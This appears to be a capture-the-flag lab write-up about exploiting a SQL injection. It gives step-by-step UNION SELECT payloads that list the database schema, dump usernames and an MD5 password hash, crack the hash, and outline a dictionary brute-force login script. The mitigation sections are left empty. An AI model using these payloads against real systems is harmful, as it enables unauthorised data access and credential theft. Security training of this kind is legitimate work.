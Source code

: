 # a01 + a05

## How to find the flag:
* Display all the tables of the databases with : 105 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns

* Discover a table named "db_default" which contains three columns : id, username, password

* Try to view its content with the following SQL command "105 OR 1=1 UNION SELECT username, 1 FROM db_default".
It will return this error message : Table 'Member_Sql_Injection.db_default' doesn't exist.
    * We understand that it looks for the content of db_default in the wrong database.
    * We now need to find in which database db_default is stored

* Use this command to show all the tables and their databases : 105 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.tables.
    * We now know that "db_default" is part of the "Member_Brute_Force" database

* List all the usernames of db_default : 105 OR 1=1 UNION SELECT username, 1 FROM Member_Brute_Force.db_default
    * We find two candidates : admin and root

* List all the password of db_default : 105 OR 1=1 UNION SELECT password, 1 FROM Member_Brute_Force.db_default
    * We find hashed data for one specific password : `3bf1114a986ba87ed28fc1b5884fc2f8`
    * We don't know if it is for admin or root yet, so we'll try both.

* But first we need to decode it. 
    * There's 32 characters so it is probably hashed in MD5.
    * It is ! The password is `shadow`

However, as the password is stored in Member_Brute_Force we suspect that we need to specificly use a brute force method to retrieve it.
In order to do this we wrote a short script in Python using a dictionnary of most common used passwords as a source. 

We then check if the word "flag" is present in the response of the reconstructed URL.

`full_url = f"{BASE_URL}&username={USERNAME}&password={password}&Login=Login#"`

* We can now go to the Signin page and log in with :
    * Username : admin
    * Password : shadow

## Risks:


## How to avoid:


Sources:
* https://owasp.org/Top10/fr/A03_2021-Injection/
* https://www.vaadata.com/blog/fr/injections-sql-principes-impacts-exploitations-bonnes-pratiques-securite/
* https://www.sqlinjection.net/table-names/
* https://www.sqlinjection.net/column-names/
* https://www.acunetix.com/websitesecurity/sql-injection/